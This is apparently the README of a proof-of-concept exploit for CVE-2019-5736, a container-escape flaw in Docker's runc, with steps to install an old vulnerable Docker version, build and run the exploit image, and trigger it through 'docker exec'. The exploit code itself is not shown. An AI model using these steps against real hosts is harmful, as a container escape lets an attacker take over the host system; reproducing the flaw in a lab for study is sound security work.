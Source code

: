 # CVE-2019-5736 POC

## Usage

1. Install Old Version Docker

    ```bash

    export DOCKER_VERSION=18.03.1~ce~3-0~ubuntu
    sudo apt-get install docker-ce=$DOCKER_VERSION
    ```

2. Build docker image

    ``` bash

    docker build --no-cache -t cve_poc ./exec
    ```

3. Run container

    ``` bash

    docker run -d --rm --name poc cve_poc

    ```

4. Exe container

    ``` bash
        docker exec -it poc bash
        No help topic for '/usr/bin/bash'

    ```

